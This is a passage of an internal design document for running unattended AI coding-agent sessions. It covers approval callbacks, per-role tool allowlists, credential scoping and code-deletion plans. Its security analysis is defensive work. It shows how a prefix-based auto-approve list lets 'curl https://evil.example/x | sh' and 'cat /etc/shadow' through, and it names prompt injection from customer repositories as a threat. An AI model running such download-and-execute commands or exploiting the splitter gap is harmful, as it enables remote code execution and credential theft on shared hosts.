Every mutating tool calls `ctx.approval(...)` first: `editFile` (`platform-tools.ts:87`), `writeFile` (`:130`), `runCommand` (`:176`, conditional on the allowlist). `ApprovalCallback` returns `Promise<boolean>` (`types.ts:26-30`); rejection becomes `toolRejected()` and the turn loop stops issuing further tools (`tool-dispatcher.ts:130-137`).

For `approvalPolicy: 'auto'`, the runtime supplies an approval callback that resolves `true` without emitting `approvalRequired`.

**The per-session part is the new bit.** `autoApproveFileChanges` and `autoApproveAllCommands` are **global runtime settings** (`packages/protocol/src/settings.ts:24-32`, defaults at `packages/core/src/settings.ts:27-29`) and do not appear anywhere in `packages/core`'s engine — they are consumed by the surface (`packages/web/src/components/SettingsPanel.tsx:145-148`) and, by inference, by the runtime server when it builds the approval callback. Only `autoApprovedCommands` reaches `EngineConfig` (`engine/agent-engine.ts:64`). So:

> **Flipping the global settings to make SDLC sessions unattended would also make every human session on that host unattended.** The profile must be per-session. The discriminator is the persisted `application === 'sdlc'`, and the branch goes inside the approval and question callbacks — which are rebuilt per session and already close over the session, so this is a handful of lines and needs no SDK change. It must never touch the settings store.

### 4.2 `question`

`askQuestion` returns `toolError('Question capability not available in this context.')` when `ctx.question` is unset (`workspace-tools.ts:18`). Its metadata is `{timeoutMs: 0, timeoutExempt: true}` (`tool-metadata.ts:24`), so when `ctx.question` *is* set and nothing answers, the tool blocks forever.

**SDLC sessions do not support questions.** There is no UI, no cycle status, and no path to route an answer back into a running session. Two layers, both degrading rather than blocking:

1. `askQuestion` is absent from every role's allowlist (§4.3), so it never reaches `buildToolConfig`'s output and the model never sees it. This is the primary control.
2. `ctx.question` left **unset**, so any other path that reaches it (a persona, a future tool) gets the existing `toolError` and the agent continues on its own judgement rather than hanging.

Ambiguity is resolved at the plan-approval gate, before engineering starts. An agent that needs to ask mid-implementation is a signal the plan was underspecified, and that belongs in the plan rather than in a new mid-session channel.

Without this, an SDLC session that asks a question hangs silently until stalled-cycle detection fires at ~20 minutes (`cycleStatuses.js:STALL_THRESHOLD_MS`) — the #743 failure mode reached by a new route.

### 4.3 `buildToolConfig`

`buildToolConfig(mode)` filters `getToolConfig({extended: true, mode})` by provider availability, then removes `PLAN_BLOCKED_TOOLS` (`= {editFile, writeFile}`) in plan mode. Changes:

> **⚠ Retraction — 2026-09-25. An earlier amendment to this section asserted, emphatically, that "the runtime cannot add tools" and that "all three terminal tools are a cross-repo SDK release." That was false, and it was false about the deployed version the whole time.**
>
> **The seam exists in `@nevadoai/sherpa-core@4.0.1` — the version actually running.** `AgentEngineOptions` carries `mcp?: McpToolProvider` (`agent-engine.ts:124`); `AgentRunnerDeps` carries the same (`agent-runner.ts:30`); the `McpToolProvider` interface is at `types.ts:94` with two methods; `McpToolProvider` is exported from the package's public surface (`index.ts:66`); and `useMcpTool` is compiled in and dispatched (`agent-engine.ts:836`). **So the runtime injects the three terminal tools from `apps/runtime` with no SDK edit, no publish, no version bump, and no 4.0.1-versus-`develop` incompatibility.**
>
> The retracted claim was wrong on two of its parts: the engine's options *do* carry a provider field, and the provider *is* exported. **The dismissal of MCP was the specific error — but only half of it was wrong, and a first attempt at this retraction got the other half wrong in the opposite direction. Both halves are stated precisely below, because the distinction is load-bearing.**
>
> **What the seam is, verified by probing the installed 4.0.1 rather than reading it:**
>
> - `McpToolProvider` is a **two-method proxy**: `listTools()` and `executeTool(name, input)` (`types.ts:94`). It does not register tools into the engine's tool configuration.
> - Supplying a provider adds **exactly two tools, not one per provider tool.** `agent-engine.ts:1440-1442` removes `listMcpTools` and `useMcpTool` when no provider is present and keeps them when one is — measured, that is 17 tools with a provider against 15 without.
> - `executeListMcpTools` calls `listTools()` **at call time, inside a tool handler** (`:1408`), and returns the result as **text** — a bulleted `name: description` list. `executeUseMcpTool` reads `input.toolName` and `input.input` and proxies to `executeTool` (`:1424`).
>
> **So the original dismissal was right that provider tools are reached through meta-tools, and wrong that this means no seam exists.** The tools are reachable **without an SDK release, through a proxy.** The model never receives `submitPlan` or `reportCompletion` as a named tool with its own input schema; it receives `useMcpTool` and a **description**.
>
> **The consequence that must not be lost, because a wrong version of this sentence would delete real work:** since the schema is never advertised, **Command Center's injected instructions are the only place the model learns the calling convention.** The instructions must teach `useMcpTool({toolName: "reportCompletion", input: {…}})` explicitly, and that text is load-bearing — not documentation. Delete it and the tool is simply never called.
>
> Two further consequences:
>
> - **§2.6's `resultSchema` matters more, not less.** There is no advertised schema on this path at all, so the instructions carry both the calling convention *and* the payload shape, and the validator is the only structural enforcement of either.
> - **§2.6's mode-gating instruction is inoperable for these three tools and the control moves.** `PLAN_BLOCKED_TOOLS` removes names from the engine's tool configuration; a provider tool is never in that configuration, so adding `reportCompletion` or `submitReview` to the Set is a **no-op by construction**. The gate is the provider itself — `listTools()` and `executeTool` are both per-session, so the runtime can withhold or refuse a tool by role and mode. That is **better** than the static Set, because it is per-session rather than per-mode; but the doc's instruction to edit the Set is wrong and must not be followed.
>
> **And the lesson, which is the reason this is recorded at length rather than quietly fixed: this is the *second* confident claim about this seam to be wrong, in *opposite* directions** — first that no seam existed and the tools needed a cross-repo release, then that the seam presented tools under their own names and schemas. Both were reasoned from reading the source; neither was probed. **The argument is not "be more careful with this interface", it is "check this interface rather than reasoning about it."** A two-method interface and a `removedTools.add` pair settle in one command what two rounds of careful reading got wrong twice.
>
> **Why this retraction is worded this strongly.** The false sentence was confident prose in a standing design record, and its consequence was concrete: it would have had someone plan and schedule an SDK release, a version bump and a runtime deploy that were never necessary. **The next reader's instinct will be to trust the prose over a two-line interface.** Do not. Check `agent-engine.ts:124` and `types.ts:94`.
>
> **What this invalidates downstream:** the "no injection seam" premise wherever it appears; the claim that the allowlist support and the `resultSchema` validator must live inside the SDK (they need not); §5.5's "cross-repo SDK release" line; and most of the force of §6's 4.0.2-versus-HEAD sequencing, since no publish is required for the tools at all. **What it does *not* invalidate is the opaque payload — see §2.6, where the argument that survives is the boundary one, not the deploy-economics one.**

| Change | Why |
|---|---|
| Add `reportCompletion` to the `do` set | §2.5 |
| Add `reportCompletion` to `PLAN_BLOCKED_TOOLS` | A plan session must not commit |
| Add `submitPlan` to the `plan` set only | §3.1 — structured plan output, no markdown round-trip |
| Honour a `tools` **allowlist** from the session profile | Per-role, fails closed — see below |
| Add `runCommand` to `PLAN_BLOCKED_TOOLS`? **No** | The planner needs `npm ls`, `git log`, `rg`. Plan mode blocks writes, not reads. But note `writePlan` bypasses `ctx.approval` entirely (`workspace-tools.ts:217` writes straight through `platformAdapter`), so "plan mode cannot write" is already not literally true. |

#### Allowlist, not denylist

The profile supplies the complete set of tools a session may use. A denylist fails open — every tool added to `sherpa-sdk` would land in SDLC sessions automatically until someone remembered to exclude it, on sessions that run unattended with blanket auto-approve (§4.4). An allowlist fails closed, and the failure is visible: the agent reports that it cannot do something, rather than silently gaining a capability nobody reviewed.

The full surface is 19 tools (`tool-specs.ts`). Per role:

| Role | Tools |
|---|---|
| `plan` | `readFile`, `listFiles`, `searchCode`, `runCommand`, `writePlan`, `submitPlan`, `updateTaskTracker`, `dispatchSubAgents` |
| `engineer` | `readFile`, `editFile`, `writeFile`, `listFiles`, `searchCode`, `runCommand`, `updateTaskTracker`, `dispatchSubAgents`, `usePersona`, `reportCompletion` |
| `qa` | `readFile`, `listFiles`, `searchCode`, `runCommand`, `updateTaskTracker`, `dispatchSubAgents`, **`submitReview`** |

Why each exclusion, since these are the ones that would otherwise arrive by default:

- **`askQuestion`** — nothing can answer it (§4.2).
- **`switchMode`** — CC owns the plan→do transition in the step model. An agent switching its own mode mid-step invalidates what the cycle record says it is doing.
- **`searchSessions`** — *"Search across other Sherpa agent sessions… searches session conversation history for matching content"* (`tool-specs.ts:356-362`). Cross-session transcript read, across tenants — the same isolation problem §2.2's read ACL addresses at the API, arriving instead through the tool surface, where the API ACL cannot see it.
- **`saveLearnedPattern`, `updateTechDebt`** — *"These are loaded into your context in future sessions"* (`:423-428`). Unattended writes to persistent shared state that later sessions, including human ones, inherit, with no review step. A deliberate grant, not a default.
- **`webSearch`** — no Firecrawl key on the runtime (`workspace-tools.ts:35`), so it fails at call time anyway.
- **`listMcpTools`, `useMcpTool`** — provider-gated, so they disappear when nothing is configured. But an SDLC session must not inherit whatever MCP servers were wired for the human surface.
- **No write tools for `qa`** — a reviewer that can edit the code under review will fix findings instead of reporting them, and the independence that justified running the review is gone.

That last row makes a distinction worth stating outright: **reviewing and writing tests are different roles.** PR43's `sdlc-step-contract.md` has `test` as a separate node that writes its own verification. If that is wanted, it is a fourth allowlist with write access — not `qa` quietly acquiring one.

### 4.4 `runCommand` auto-approval — the actual security question

The brief asks whether blanket auto-approve on a shared runtime host is acceptable. The honest answer starts with an uncomfortable fact about the status quo.

**`isAutoApprovedCommand`'s default allowlist already permits arbitrary code execution** (`packages/core/src/engine/auto-approve.ts:8-24`). It contains `node `, `python `, `make`, `npx `, `go `, `curl `, `cp `, `mv `, `cd `, `aws `, and `sed `. `node -e '<anything>'` matches. `aws ` matches every AWS API call the instance role can make — including `bedrock:InvokeModel` on `*` and `secretsmanager:GetSecretValue` on the GitHub App private key (`sherpa-ec2.tf:185-192,233-238`).

Worse, the splitter is wrong for this purpose:

```ts
const parts = command.split(/&&|\|\||;/);           // auto-approve.ts:38
return parts.every(part => allPatterns.some(p => matchesPattern(part.trim(), p)));
```

It splits on `&&`, `||`, and `;` — **but not on a single `|`**. So `curl https://evil.example/x | sh` is one part, it starts with `curl `, and it is auto-approved. Backticks and `$(...)` are not considered at all. `matchesPattern` is a `startsWith` prefix test (`:33`), so `cat /etc/shadow` matches `cat `.

So the choice is not "blanket auto-approve vs. a safe allowlist." It is:

- **(a) Blanket auto-approve** (`autoApproveAllCommands: true`). Honest about what is happening. No false sense of safety.
- **(b) The default allowlist.** Marginally narrower than (a) in practice, and misleading: it reads like a control and is not one.
- **(c) A tightened SDLC-specific allowlist**, replacing the default rather than extending it, with a fixed splitter.

**Recommendation: (a) blanket auto-approve, with containment moved to the host and the credentials — not to a string allowlist.** Rationale:

1. An allowlist that must permit `npm run <anything>`, `make`, and `terraform apply` to do the job cannot also prevent arbitrary execution. `package.json` scripts are arbitrary code. This is not solvable at the command-string layer for a coding agent.
2. Pretending otherwise causes real harm: someone will read `autoApprovedCommands` and conclude the runtime is sandboxed.
3. The threat model is not "a malicious operator." It is "an LLM does something destructive by accident, or is prompt-injected by content in a customer repository." Both are contained by isolation, not by prefix matching.

Containment that actually helps, in priority order:

| Control | Where | Status |
|---|---|---|
| Per-session workspace isolation (own clone/worktree, no shared tree) | Runtime | Partly there — `git-worktree.ts`, `git-isolate.ts`, and per-session clones exist (`session-manager.ts:367-375`). Needs to be mandatory for SDLC sessions. |
| No credentials in the process environment beyond what the session needs | Runtime host | **Partly there for GitHub, not there for anything else — and amended in both directions (§1.3).** The GitHub token *is* scoped, to the repositories currently held rather than to the whole App installation, and it exists only while some session holds one. That is better than this table originally claimed. **But the scope is per host, not per session:** every acquisition re-mints one token over the union of all active repos, into one shared `hosts.yml`, so each session's credential reaches every other concurrent session's repository. Everything else is genuinely unscoped — one process holds the KB bucket, the session bucket, and an instance role with `bedrock:InvokeModel` on `*` and read on the App private key. |
| Per-session credential scoping | Runtime | **The gap worth closing, and it is tractable.** The token manager already takes a repository list; what it lacks is a *per-session* notion of which list applies. A credential helper resolving per workspace — or a token file per session with `GIT_CONFIG_GLOBAL`/`HOME` pointed at it — would make a session's reach exactly its own repo. That is the one containment control on this list that is neither host-layer isolation nor a string allowlist, and it becomes more valuable, not less, as this design multiplies concurrent sessions. Out of scope for this document to specify; worth an issue against the runtime. |
| OS-level isolation per session (container/user namespace) | Runtime host | **Not there on EC2.** This is the strongest argument for the in-flight Fargate migration — per-task isolation is a boundary a `startsWith` check can never be. |
| Egress restriction | Runtime SG | Currently TCP 443 to `0.0.0.0/0` (`sherpa-ec2.tf:318-324`). Narrowing this breaks `npm install`; not worth it. |
| IMDSv2 hop limit | Runtime instance | Already 2 (`sherpa-ec2.tf`, `http_put_response_hop_limit = 2`). Note `ssmBuildRunner.js:254-256` explicitly relies on hop-limit-1 as "the only sandbox" on the toolbox box — that is a weaker posture than what replaces it. |
| Fix the `\|` splitter and add `$()`/backtick rejection | `auto-approve.ts:38` | Should be done regardless — it is a real bug in a function whose own docblock calls itself "a security boundary" (`auto-approve.ts:5`). |

**Position:** ship (a) for SDLC sessions, fix the splitter bug in `auto-approve.ts` as a separate upstream change since it affects human sessions too, and treat per-session OS isolation as the control that matters — tracked against the Fargate migration, not against this design.

### 4.5 Profile summary

```ts
interface SdlcSessionProfile {
  tools: string[];       // allowlist, per role — §4.3
  maxTurns: number;      // default 120 (the engine's own default is 200)
}
```

**Amended: two fields, not six.** The original shape also carried `attended: false`, `approvalPolicy: 'auto'`, `autoApproveAllCommands: true` and `workspaceIsolation: 'per-session'`. All four are cut:

- The first three are **three encodings of one decision**, and the decision is better carried by a field that is **persisted and survives a resume**: `application === 'sdlc'`. The approval and question callbacks are rebuilt on every resume (§4.1), so a discriminator living only in a create-time payload is in the wrong place. Three redundant encodings is also three things to disagree with each other.
- `workspaceIsolation: 'per-session'` **asserts something the runtime does unconditionally** — one independent clone per session (§1.2). A field that cannot be false is decoration, and worse, an implementer may read it as a control that could be turned off.

The unattended posture belongs in the runbook and in a comment at the callback (§4.4's R2 mitigation), not encoded three times in a request body. **`application: 'sdlc'` is the discriminator; the profile carries only what the runtime cannot derive.**

Note also that `maxTurns` is **not plumbed today** — the runtime's config builder does not return it, so the engine always falls back to its own default of 200. Honouring it is a small change, but it is a change, not a use of an existing field.

---

## 5. What deletes, what survives

> **⚠ Amended: read §5.5 first. This section's accounting is written as JS files and JS line counts, and the Go mandate voids that framing.** The **deletions** below still hold — the SSM path, the JSON-blob generators, the placeholder handler and the fallback planner all still go, for the reasons given. The **collapses** do not: "reduce this JS file from 1,369 lines to ~250" is not a meaningful instruction when the file is being replaced by a Go handler, and §5.4's net-line-count arithmetic is void. Treat §5.1–5.4 as *an inventory of what must stop existing and what must keep working*, which is language-independent and still correct, rather than as a per-file diff plan. Re-derive the file-level accounting against whichever Go shape the implementation spec chooses.

### 5.1 Deletes outright

| File | Lines | Note |
|---|---|---|
| `backend/lambda_handlers/engineeringAgent/ssmBuildRunner.js` | **1,002** | Entire file. The 7 tool definitions (`:56-172`), `agenticBuildLoop` (`:555-835`), the SSM transport (`:181-214`), the parallel/sequential executor (`:465-552`), the truncation-recovery machinery (`:624-673`), the SSM circuit breaker (`:745-754`), workspace setup/cleanup (`:401-433`), `gitPushWithRetry` (`:438-459`). All of this is `AgentEngine` + `PlatformAdapter` + `reportCompletion` now. |
| `backend/common/codingAgentAdapter.js` | **279** | Zero callers. Delete now, independent of everything else. |
| `agentDrivenOrchestrator/index.js:1412-1534` (`expandBusinessGoals`) | **123** | Planning is a session — but it has a **second caller**; see below. |
| `engineeringAgent/index.js:133-380` (`handleEngineeringTask`) | **248** | The placeholder demo path that commits a markdown file and opens a PR describing itself as a placeholder (`:218-222`, `:290-319`). One of the five PR-create sites, and the only one nothing real depends on. Also drops the unused `@aws-sdk/client-bedrock-agent-runtime` import at `:4-10`. |

**`agentInterface.js` does not delete.** It is live: `cursorAgent/devHandler.js:8` requires `DevAgent` and `cursorAgent/qaHandler.js:8` requires `QAAgent`, and both handlers extend them. The cursor-agent Lambda is deployed (`infrastructure/lambdas.tf:1474`, ARNs wired at `:1541-1542`). Deleting it breaks a shipped integration. `codingAgentAdapter.js` is genuinely unreferenced and still goes — the two are not the same case, and conflating them is how a dead-code sweep takes out a live dependency.

**`expandBusinessGoals` has two callers, and only one is planning.** The fallback at `index.js:1221-1222` disappears with the plan session. The other is `handleRequestRevision` (`index.js:4870`), which calls it at `:4904` to regenerate a plan from reviewer comments and stores the result through `planComments.storePlanVersion` — the plan-revision flow, reachable from the plan-review UI. **Deleting the function without replacing that call breaks plan revision.** The replacement is the natural one — revision is a plan session, started with the original task plus the open comments as its prompt, producing a new `PlanCompletion` that becomes the next plan version — but it is work, it belongs in Phase 5 alongside the rest of planning, and it is why `planComments.js` is listed as untouched in §5.3 while the thing that feeds it is being deleted.

### 5.2 Collapses

**`engineeringAgent/orchestratorHandler.js` — 1,369 lines → ~250.**

Deletes (~950 lines): `convertSystemBlocks` (`:36-46`), `convertMessages` (`:48-60`), `selfVerifyCode` (`:132-212` — its `MAX_RETRIES = 2` loop never iterates; every branch returns on attempt 1, `:182,187,194,199-201`), `applySlidingWindow` (`:734-742`), `generateCodeWithClaudeStateful` (`:748-761`), `generateCodeWithConversation` (`:767-804`), `generateCodeWithClaude` (`:808-901` including the 190K token pre-flight at `:826`), `getApplicationRepo` (`:906-910`, a `TODO` stub returning `null`), `parseGitHubUrl` (`:915-927`), `validateJavaScriptSyntax` (`:930-970`), `validateCodeSyntax` (`:973-1012`), `createGitHubBranch` (`:1015-1146`), `estimateTokens`/`truncateContent` (`:1197-1221`), `loadApplicationCodebase` (`:1224-1369`), and the SSM branch (`:380-398`).

Survives, transformed: `generatePlan` (`:217-354`) becomes the plan session's instructions + first message; `buildEngineeringPrompt` (`:550-731`) becomes the engineering session's instructions + first message, minus its token-budget machinery (`:559-585`); `loadEngineeringDocumentation` (`:1149-1194`) unchanged; the bootstrap assembly at `:369-378` unchanged; `checkCancellation` (`:63-87`) moves to the `sdlcEventConsumer` Lambda.

**`reportProgress` (`:89-117`) deletes — it must not move.** It writes `cycle.activities[]` plus `currentStage`/`lastActivityAt`; the consumer writes `progressLog` via `addProgressLog`. Moving it would leave two writers of two different fields with the UI reading one of them, which is exactly the split §1.5 exists to close. One writer, one field: `addProgressLog`.

**`qaAgent/orchestratorHandler.js` — 632 lines → ~280.**

Deletes (~320): `analyzeCodeChanges` (`:161-355`, Bedrock at `:267`), `parseDiffLines` (`:358-387`), `validateRequirements` (`:567-632`, Bedrock at `:598`). Also fixes a latent bug on the way out: the module-level `let agentContext` at `:40` is reassigned per invocation at `:49`, so a warm container leaks the previous cycle's bootstrap prompt if `:49` throws.

Survives: `updateCycleStatus` (`:403-450`), `updateCycleWithQAResult` (`:453-562`), `getApplication` (`:390-400`), and the `pulls.createReview` call at `:337` with its diff-line validation (`:288-290`) — which moves into the orchestrator as a CC action (§3.5).

**`agentDrivenOrchestrator/runtimeDispatch.js` — 76 lines, rewritten.** `createRuntimeSession` (`:63-71`) gets a real body (M2M token + fetch). `buildRuntimeSessionRequest` (`:35-50`) gets `mode: 'do'|'plan'` instead of `'agent'` (`:45`), a real prompt instead of the string-check that drops the plan (`:42-44`), plus `instructions`, `profile`, `baseBranch`.

**`agentDrivenOrchestrator/runtimeEvents.js` — 152 lines, kept and extended.** The mapper is already correct against the real protocol. Add: a `completion` arm, parameterise the hardcoded `stage: 'engineering'` (`:56,68,75`), and keep `buildCompletionEffect` (`:113-133`) as the no-`reportCompletion` fallback.

**`agentDrivenOrchestrator/agentRouter.js` — 383 lines.** The `dev` and `qa` backend maps (`:14-26`) lose their `nevado` Lambda ARNs and gain `runtime`; the `'cursor'`/`'copilot'` entries stay as-is. Backend selection happens in exactly two places — `getDevAgent:77` (`application.devAgent || 'nevado'`) and `getQAAgent:105` (`application.qaAgent || 'nevado'`, with `'none'` short-circuiting at `:108-115`) — so this is a small, contained change. `generatePlan` (`:138-152`) points at the plan session instead of `ENGINEERING_AGENT_LAMBDA_ARN`; its `supportsPlanning` guard at `:143` should keep rejecting copilot.

**`agentDrivenOrchestrator/agentInterface.js` — 153 lines, untouched.** It is the base-class contract `cursorAgent`'s two handlers extend (`devHandler.js:8`, `qaHandler.js:8`). Adding `runtime` as a backend does not change it; the runtime is not a Lambda implementing `DevAgent`.

A wrinkle worth knowing: the orchestrator's own engineering and QA invocations (`invokeEngineeringAgent`, `invokeQAAgent`) **do not go through `agentRouter` at all** — they invoke the Lambda ARNs directly. The router is used only for `generatePlan`. So "register the runtime as a backend in `agentRouter`" covers planning and nothing else unless those two call sites are also routed through it.

**Amended on both halves of that.** First: **`invokeEngineeringAgent` has five call sites, not one.** This section describes the cutover as flipping a single dispatch branch, which accounts for the *entry* into engineering and nothing else. The other four are the operator's request-changes path at the PR gate, the CI-build-failure loop, the post-merge deploy-failure loop, and the QA-failure iteration loop. All five already forward `buildMode` downstream, and **none of the four has a runtime branch** — so on a `buildMode: 'runtime'` application they silently fall through to the legacy JSON-blob path, producing a cycle half-executed on a session and half on Bedrock, with two prompt-assembly paths live (R6) and no signal that it happened. §6 assigns all five.

Second: **registering `runtime` in `agentRouter` is deferred, not done.** Since the router is only on the plan path, the plan dispatch branches on `buildMode` before the router is reached, and §6 Phase 7 deletes both direct invokers, adding a `runtime` entry to the router's backend maps would register a backend nothing dispatches to. It becomes worth doing the moment `application.devAgent` is meant to choose between `runtime` and `cursor` on the execution path — a product decision nobody has taken. Record it as a deliberate deferral with a comment in the file, not as an omission.

**`agentDrivenOrchestrator/index.js` — 4,984 lines.** The runtime branch at `:1628-1649` stops being a stub and stops parking. `applyRuntimeEffect` (`:140-166`) is already written and already calls `routeAfterEngineering` — it gains the two new effect kinds. The SQS engineering dispatch (`:1652+`) survives during the transition and deletes when `buildMode: 'runtime'` becomes unconditional. The file itself barely grows — but see §5.4: that is a fact about this file, not about the project.

**`engineeringAgent/package.json`** drops `@aws-sdk/client-ssm` and `@aws-sdk/client-ec2`. `ssmBuildRunner.js` is the only SDLC-path SSM caller (`devopsAlertDelivery` and `devopsDiagnosisEngine` keep theirs and are out of scope).

### 5.3 Untouched

- `cycleCheckpoints.js`, `planComments.js`, `autoApprove.js`, `pmItem.js`, `common/pollingIndex.js`.

  **Amended — four files this list originally contained do change:**

  - **`cycleStatuses.js`, `sdlcEngine.js` and `sdlcStepGraph.js` all change in Phase 4b.** Adding `ENGINEERING_FAILED` is not just a constant: `applyTransition` **throws** on a target status absent from its transition table, so the status needs table edges, a step-graph membership (or every illegal-transition log line renders `step "engineering" → "null"`), and `ATTENTION_STATUSES` membership with a matching operator affordance — the last enforced by an existing invariant test. This is the whole reason Phase 4b must precede Phase 4 (§6).
  - **`progressTracker.js` changes in Phase 0.** It is both a third writer of `cycle.activities` and a reader with the mirror-image truthiness defect (§1.5).
- `backend/common/bedrockConverse.js` (294) and `common/knowledgeBaseLoader.js` (593) — 17 out-of-scope callers.
- `backend/common/agentBootstrap.js` (137), `agentMemory.js` (223), `agentSkills.js` (132) — these *become more important*, since they now author the `instructions` field.
- **The frontend, almost entirely.** `CycleProgress.jsx` reads `cycle.status` through `mapStatusToStageIndex`; `ApplicationDetail.jsx` polls the cycles endpoint every 10s and renders the plan-review dialog with `expandedRequirements` and the approve/reject handlers. **None of that changes**: CC keeps writing the same record with the same statuses and the same `expandedRequirements` shape.

  **Amended: the exceptions are a handful of pre-existing bugs, not "one line".** All are independently correct today and none is caused by this design — but each is on the cutover's critical path: the activity-feed selector (§1.5, and it is a shared selector rather than the one-line fallback originally prescribed); `createdAt` → `startedAt` and `iteration` → `currentIteration`, two panels that have never rendered; `technicalApproach` → `approach` (§1.4); and a `STATUS_CONFIG` entry plus a pipeline-stage mapping for `ENGINEERING_FAILED` in Phase 4b, without which the new status renders as a grey chip with **no button** — an inescapable dead end for an attention status, which an existing invariant test is designed to catch.

  That the rest of a 1,863-line page and its 10-second poll loop are untouched by moving the entire execution substrate is still the strongest evidence the boundary is drawn in the right place. The exceptions are all name mismatches that predate this work.

### 5.4 Net

**Deleted from Command Center: ~2,780 lines**, of which ~2,500 are attributable to this migration.

| | Lines |
|---|---|
| `ssmBuildRunner.js`, entire | 1,002 |
| `engineeringAgent/orchestratorHandler.js`, collapsed | ~950 |
| `qaAgent/orchestratorHandler.js`, collapsed | ~320 |
| `engineeringAgent/index.js` `handleEngineeringTask` | 248 |
| `expandBusinessGoals` (`:1412-1534`) | 123 |
| **Attributable subtotal** | **~2,640** |
| `codingAgentAdapter.js` — unrelated dead code, deleted opportunistically | 279 |
| **Total** | **~2,920** |

`agentInterface.js` is not in this table: it is live (§5.1).

**Added — and this is where the earlier "~450 lines" was wrong.** Not because any one item is large, but because the list was short.

*Command Center:*

- The engineering-completion sequence — validate, branch, `githubUrl`, draft PR with its 422 fallback, the `BUILDING` routing, the conditional persist. ~90 lines **extracted, not written** (`index.js:1839-1941`), which is cheaper than new code and not free (§3.3).
- The `applyRuntimeEffect` / `routeAfterEngineering` extraction into `backend/common/`. The real cost is what they close over: `docClient`, `TABLE_NAME`, `addProgressLog`, `applyTransition`, `writeStatus`, `invokeQAAgent`, `getOctokit`, `extractOwnerRepo`, and the whole QA branch at `:241-305`. Every one becomes a parameter or a module boundary. This is the single largest CC-side task and it is a refactor of live orchestration code.
- `sdlcEventConsumer` — handler, batch loop, stage dispatch, partial-batch reporting.
- Real `createRuntimeSession` with M2M token fetch and caching, plus the idempotency guards (§3.2).
- Instruction and message composition for three roles.
- A plan-revision replacement for `handleRequestRevision`'s `expandBusinessGoals` call (§5.1).
- `stuckCycleDetector`'s session-aware branch and the same for `retryStalled` (§3.9).
- `ENGINEERING_FAILED` and its touch list (Phase 4b).

*Terraform — ~300 lines of HCL, plus the `deploy-dev.yml` target list:* FIFO queue, `.fifo` DLQ, redrive, DLQ alarm, event source mapping, runtime `sqs:SendMessage` statement, API Gateway route + `HTTP_PROXY` integration with parameter mapping, two ALB listener rules, the shared secret, `sdlcEventConsumer` + log group + permission + env vars. **Every one also needs a `-target=` entry** or it is written, merged, and never deployed (§2.1 item 5).

*`sherpa-sdk` (target 4.0.2, patched from the deployed 4.0.1 — §6):* `reportCompletion`, including the git primitives that **do not exist anywhere in the package** — stage-all, commit, push-with-retry, empty-tree detection, stderr surfacing (§2.6; detached-HEAD resolution is *not* needed, since a `commitSha` checkout leaves HEAD on a branch — §2.3); `submitPlan` and `submitReview`; the generic `resultSchema` validator; `PLAN_BLOCKED_TOOLS` additions; allowlist support in `buildToolConfig`; the model id and cumulative token usage threaded into the tool context, which carries neither today; and the protocol's additive union changes (`SessionApplication += 'sdlc'`, `SessionStatus += 'queued'`, `reason?: PauseReason` on the status frame, plus the `completion` variant). Optionally, two lines to unforce `createdBy`/`application` (§2.2) — not required for v1, but it removes a trap.

*The runtime server (`nevado-sherpa-tui/apps/runtime`) — this is the project.* The `/v1/sdlc` namespace; the ACL (the first authorization in the service, §2.2); per-session profile state (because the auto-approve settings are global today, §4.1); the `instructions` override that bypasses `loadSystemPrompt`; `model` override with validation and a fallback `progress` event; `correlation` storage and echo; `application` stamping; **`DELETE`'s four fixes rather than a build** (§2.3); the SQS publisher with two-tier coalescing and flush-on-Tier-1; the event filter; `commitSha`-checkout support with `baseBranch` fetched and a **hard failure on a sha that cannot be satisfied** (§2.3, §3.5); an honest `status` on create, which means restructuring the create path (§2.3); dequeueing a cancelled session's parked resolver (§2.3); and the generic `resultSchema` validator (§2.6). **Amended 2026-09-25: the "plus, in the SDK" list is almost entirely retired.** It read *"the three terminal tools, the git commit/push primitives that do not exist in the package at all, allowlist support in `buildToolConfig`, and the protocol's additive union changes."* Of those: the **three terminal tools** need no SDK change — they are injected through the MCP provider seam in the deployed 4.0.1 (§4.3's retraction). The **git commit/push primitives** are not needed by anyone, because `reportCompletion` no longer performs the operation (§2.6). The **allowlist support** and the **`resultSchema` validator** can live in `apps/runtime` rather than the SDK for the same reason the tools can. What genuinely remains is the protocol's additive union changes — and even those only matter to consumers that import the types, which the Command Center backend does not.

That last list is larger than the entire Command Center side. **Amended: it does not live in an unexamined repo.** This document was written believing the runtime server was not checked out; it is, at `nevado-sherpa-tui`, with the SDK at `sherpa-sdk`, and every runtime claim in this amendment is verified against them and against the deployed 4.0.1. The estimate is better evidenced than originally stated — and larger, because several items on that list turned out to be fixes to existing behaviour whose defects had to be found first.

**So: "net change is small" is true of `agentDrivenOrchestrator/index.js`, and false of the project.** The orchestrator genuinely barely grows — that is the design working. The work moved; it did not disappear.

### 5.5 What the Go mandate costs

**Amended 2026-09-24, and this replaces the section entirely.** This section used to be *"What TypeScript-not-Go costs"*, arguing the cost of keeping the executor in the existing JS orchestrator. **All Command Center Lambdas must now be Go — a CTO mandate — so that path no longer exists and the section is describing an unavailable option.** Its third cost item was *"it will be written twice. Not 'might.'"* That prediction has come true earlier than expected: the answer is now to write it once, in Go.

**What survives from the old reasoning, because it was right and is now an argument the other way.** The old section's case for JS was: *"Moving execution and language and runtime in one step means no intermediate state is verifiable."* That concern is real and the mandate does not dissolve it — it relocates it. The design still needs each phase in §6 to be shippable and observable, and the shape chosen for the Go work has to preserve that. A choice that makes Phase 3 unverifiable until Phase 6 lands is the wrong choice regardless of language.

**Where the migration already is** — not hypothetical, and this is the main input to the choice:

- **31 Go handlers in `backend/go/cmd` against 54 JS in `backend/lambda_handlers`**, with heavy overlap (the whole `devops*` family exists in both). The migration is well advanced.
- **A Go `sdlc-manager` already exists** — `backend/go/cmd/sdlc-manager` plus `backend/go/internal/sdlc`, ~828 lines including tests. It is **not** a port of the orchestrator; it is template/preset CRUD. But it is where SDLC-shaped Go code already lives, and `sdlcStepGraph.js` already notes its `agentId` values were chosen to match the Go `Phase.AgentID` shape so a stored template maps across without translation. **That is a two-implementations-of-one-model problem this document already flagged, and the mandate turns it from a divergence to manage into a convergence to design.**
- **Terraform still wires the orchestrator from JS:** `aws_lambda_function.agent_orchestrator` from `agentDrivenOrchestrator.zip`. Whatever shape is chosen has to land in that wiring.

